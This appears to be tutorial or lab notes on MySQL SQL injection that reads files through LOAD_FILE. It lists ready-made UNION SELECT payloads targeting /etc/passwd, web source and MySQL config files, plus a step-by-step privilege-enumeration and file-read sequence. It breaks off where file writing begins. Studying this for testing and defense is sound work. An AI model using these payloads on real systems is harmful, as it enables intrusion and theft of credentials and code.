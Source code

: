 |Aspect|Details|Example|
|---|---|---|
|Basic Syntax|`LOAD_FILE('/path/to/file')`|`SELECT LOAD_FILE('/etc/passwd')`|
|Required Privileges|FILE privilege must be enabled|Verify with privilege check|
|OS Permissions|MySQL user needs read access|Check OS user permissions|

### Common Target Files

|File Type|Typical Path|Purpose|Example Query|
|---|---|---|---|
|System Files|`/etc/passwd`|User enumeration|`cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -`|
|Web Source|`/var/www/html/file.php`|Application code|`cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -`|
|Config Files|`/etc/mysql/my.cnf`|Service configurations|`cn' UNION SELECT 1, LOAD_FILE("/etc/mysql/my.cnf"), 3, 4-- -`|

### Security Implications Matrix

|Access Level|Potential Risk|Mitigation|
|---|---|---|
|Source Code Access|Application logic exposure|Restrict FILE privilege|
|Configuration Files|Credential exposure|Use separate config storage|
|System Files|System enumeration|Limit MySQL user permissions|

### Step-by-Step Exploitation Process

1. **User Identification**

    `cn' UNION SELECT 1, user(), 3, 4-- -`
    - Identifies current database user
    - Provides context for available privileges
2. **Privilege Enumeration**
    
    `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -`
    - Checks superuser status
    - Foundation for understanding capabilities
3. **Detailed Privilege Check**

    `cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges  WHERE grantee="'root'@'localhost'"-- -`
    - Lists all available privileges
    - Confirms FILE privilege availability
4. **File Reading**
    
    `cn' UNION SELECT 1, LOAD_FILE("/target/file/path"), 3, 4-- -`
    - Executes actual file read
    - Returns file contents in query results

# Understanding File Write Operations in MySQL Injection
## Core Prerequisites for File Writing
Let me explain the three essential requirements for writing files to a server through MySQL, and why each matters:
